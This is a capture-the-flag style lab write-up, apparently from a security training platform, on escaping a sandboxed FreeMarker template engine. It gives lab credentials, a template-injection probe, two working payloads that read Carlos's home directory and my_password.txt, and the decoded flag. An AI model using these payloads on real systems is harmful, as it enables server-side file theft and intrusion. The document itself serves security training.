





# Lab: Server-side template injection in a sandboxed environment

> Lab Objective: break out of the sandbox to read the file `my_password.txt` from Carlos's home directory. Then submit the contents of the file.

- Login using provided credentials `content-manager:C0nt3ntM4n4g3r`

- Freemarker template engine is being used (given).

- View any product, then edit template with this payload `${3*3}`, you'll notice that the expression has executed after saving the template.
  
  

- Therefore, you can use the following payload to list contents of `/home/carlos` directory.

```java
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos').toURL().openStream().readAllBytes()?join(" ")}
```

- Then convert bytes to ASCII.
  

- Output:

```plaintext
.bash_logout
.bashrc
.profile
my_password.txt
```

- Read `my_password.txt` file using this payload:

```java
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

- Convert bytes to ASCII:
  

- The output: `d3r85qml5nifbih79vby`

- Submit the output and the lab is solved.
  

---
